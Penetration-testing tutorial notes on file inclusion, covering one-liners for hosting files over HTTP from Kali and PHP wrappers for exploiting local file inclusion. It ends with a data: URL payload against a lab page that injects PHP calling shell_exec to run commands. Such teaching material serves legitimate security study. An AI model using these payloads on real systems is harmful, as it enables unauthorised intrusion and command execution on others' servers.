


# Expanding File Inclusion Repertoire

## HTTP Servers

### Apache

Apache is included by default in Kali and can be used to expose files placed in the `/var/www/html` directory structure via HTTP.

### Python

Python can be used to start an HTTP server and host any files or directories from the current working path.

#### Python 2.x

One can start an HTTP server on an arbitrary port in Python 2.x by setting `-m SimpleHTTPServer` to set the desired module and 7331 (or any valid port number) to set the TCP port:

```bash
kali@kali:~$ python -m SimpleHTTPServer 7331
Serving HTTP on 0.0.0.0 port 7331 ...
```

#### Python 3.x

The syntax is slightly different with Python 3.x as the module name is different:

```bash
kali@kali:~$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
```

### PHP

PHP includes a built-in web server that can be launched with the -S flag followed by the address and port to use:

```bash
kali@kali:~$ php -S 0.0.0.0:8000
PHP 7.3.8-1 Development Server started at Wed Aug 28 12:59:52 2019
Listening on http://0.0.0.0:8000
Document root is /home/kali
Press Ctrl-C to quit.
```

### Ruby

One can also launch an HTTP server with a Ruby "one liner". The command requires several flags including `-run` to load `un.rb`, which contains replacements for common Unix commands, `-e httpd` to run the HTTP server, `.` to serve content from the current directory, and `-p 9000` to set the TCP port:

```bash
kali@kali:~$ ruby -run -e httpd . -p 9000
[2019-08-28 12:44:14] INFO  WEBrick 1.4.2
[2019-08-28 12:44:14] INFO  ruby 2.5.5 (2019-03-15) [x86_64-linux-gnu]
[2019-08-28 12:44:14] INFO  WEBrick::HTTPServer#start: pid=1367 port=9000
```

### busybox

Attackers can also use busybox, "the Swiss Army Knife of Embedded Linux", to run an HTTP server with `httpd` as the function, `-f` to run interactively, and `-p 10000` to run on TCP port 10000:

```bash
kali@kali:~$ busybox httpd -f -p 10000
```

## PHP Wrappers

PHP provides several protocol wrappers that one can use to exploit directory traversal and local file inclusion vulnerabilities. These filters give additional flexibility when attempting to inject PHP code via LFI vulnerabilities.

### Data

We can use the `data` wrapper to embed inline data as part of the URL with plaintext or base64 encoded data. This wrapper provides us with an alternative payload when we cannot poison a local file with PHP code.

#### Example

Continuing with the vulnerable `/menu.php` page:

```
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```

<figure><figcaption><p>data tag rendered as HTML text</p></figcaption></figure>

In extreme cases, this can be taken even farther to allow direct code execution:

```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

<figure><figcaption><p>Command execution via data tag</p></figcaption></figure>
